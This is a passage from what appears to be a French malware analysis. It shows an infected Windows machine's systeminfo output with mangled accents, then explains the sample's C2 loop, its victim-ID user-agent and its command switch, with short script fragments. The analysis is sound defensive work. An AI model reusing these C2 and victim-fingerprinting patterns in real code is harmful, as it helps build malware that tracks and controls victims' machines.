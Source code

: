 ```
                                            [01]: KB5029921
                                            [02]: KB5012170
                                            [03]: KB5026039
                                            [04]: KB5030219
                                            [05]: KB5028756
Carte(s) r‚seau:                            4 carte(s) r‚seau install‚e(s).
                                            [01]: Intel(R) Ethernet Connection (4) I219-LM
                                                  Nom de la connexionÿ: Ethernet
                                                  tatÿ:                Support d‚connect‚
                                            [02]: Intel(R) Dual Band Wireless-AC 8265
                                                  Nom de la connexionÿ: Wi-Fi
                                                  DHCP activ‚ÿ:         Oui
                                                  Serveur DHCPÿ:        10.0.0.1
                                                  Adresse(s) IP
                                                  [01]: 10.0.0.53
                                                  [02]: fe80::e3e8:bd35:b540:b965
                                            [03]: Bluetooth Device (Personal Area Network)
                                                  Nom de la connexionÿ: Connexion r‚seau Bluetooth
                                                  tatÿ:                Support d‚connect‚
                                            [04]: VirtualBox Host-Only Ethernet Adapter
                                                  Nom de la connexionÿ: Ethernet 2
                                                  DHCP activ‚ÿ:         Non
                                                  Adresse(s) IP
                                                  [01]: <IP>
                                                  [02]: <address>
Configuration requise pour Hyper-V:         Extensions de mode du moniteur d'ordinateur virtuelÿ: Oui
                                            Virtualisation activ‚e dans le microprogrammeÿ: Oui
                                            Traduction d'adresse de second niveauÿ: Oui
                                            Pr‚vention de l'ex‚cution des donn‚es disponibleÿ: Oui

```

### Communication avec les C2

La fonction centrale de se programme se trouve ici. Une boucle infinie var garder le programme vivant afin de permettre aux attaquants d'envoyer des commandes au programme.

Tout d'abord, le programme va envoyer au C2 les informations de la victime via une requête HTTP, avec un user-agent unique qui dépend de la machine infectée :

```javascript
Kpxo.SETREQUESTHEADER("user-agent:", "Mozilla/5.0 (Windows NT 6.1; Win64; x64); " + get_victim_id());
```

Les informations semblent chiffrées via un algorithme maison. Ensuite, un switch/case indique les différentes commandes que le programme peut recevoir du C2 avant de se mettre en dormance pour une durée d'environ une heure : 

```javascript
switch (f3cb) {
    case "good":
        break;
    case "exit":
        WScript.Quit();
        break;
    case "work":
        work(Ysyo);
        break;
    case "fail":
        fail();
        break;
    default:
    break;
}
```